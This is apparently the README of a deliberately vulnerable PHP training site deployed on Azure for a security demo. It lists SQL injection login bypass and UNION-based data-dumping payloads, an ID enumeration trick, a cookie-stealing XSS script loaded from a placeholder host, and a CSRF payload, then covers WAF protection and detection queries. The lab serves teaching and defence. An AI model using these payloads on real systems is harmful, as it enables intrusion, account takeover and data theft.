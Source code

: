 # hackmesite
PHP site ready to be hacked. Used in CSE demo on 2019-02-11.

# Deploy
- Deploy Web App In Azure. Here's a [sample template](https://github.com/Azure/azure-quickstart-templates/tree/master/101-webapp-basic-linux)
- Enable [In-App MySQL](https://blogs.msdn.microsoft.com/appserviceteam/2017/03/06/announcing-general-availability-for-mysql-in-app/)
- Import the `localdb.sql` content to MySQL using `sitename.scm.azurewebsites.net/phpmyadmin`
- Pull the connection data by viewing the `MYSQLCONNSTR_localdb` environment variable (see commented line in `db.php`), or using FTP go to `/data/mysql/MYSQLCONNSTR_localdb.ini` and take note of the port, username and password to connect to the DB
- Edit `db.php` and populate the fields for connecting to the DB


# Exploiting the site
1. SQL Injection on `index.php`: Login with any username and `" or ""="` as the password and you'll sign in as UID #1 (a password of `" OR "1"="1` also works but is more prone to being detected)
2. Enumeration on `main.php`: Once signed-in, change the query string to use another `cid`, such as `?cid=2`
3. SQL Injection on `main.php`: Once signed-in, add SQL to the `cid` parameter to expose the contents of the `users` table: `?cid=1 UNION SELECT users.cusername AS oid, users.cpassword AS timestamp, orders.cid, orders.pid,users.*, products.* FROM orders, users, products WHERE products.pid=orders.pid AND users.cid=orders.cid`
4. XSS in `main.php`: Enter into the search bar `ponies<script src="https://YOURHOST.azurewebsites.net/malicious/collector.js"></script>`
    - You'll find the stolen cookie at `https://YOURHOST.azurewebsites.net/malicious/crumbs.log` (the logger is the `/malicious/cookie_monster.php` file) which you can decode at [jwt.ms](https://jwt.ms)
5. CSRF in `main.php`: Enter into the search bar `ponies<script src="/api.php?action=purchase&cid=2&pid=1"></script>`
    - You will find that cid 2 (user `neill`) has made a new purchase in the background

# Securing it
Put the site behind a Application Gateway+WAF, configure the WAF in prevention mode and set its diagnostic logs to route to a Log Analytics Workspace.

Try the attacks again and you should see a 403. Within ~5 minutes a log entry for the event appears in Log Analytics.

Log Analytics queries:
- Count of attacks, grouped by attacker IP address: `AzureDiagnostics | where OperationName == "ApplicationGatewayFirewall" | summarize count() by clientIp_s`
- Detailed list of SQLi or XSS attacks: `AzureDiagnostics | where OperationName == "ApplicationGatewayFirewall" and ruleSetType_s == "OWASP" and ruleId_s in ("941100", "941110", "942130", "949110")`

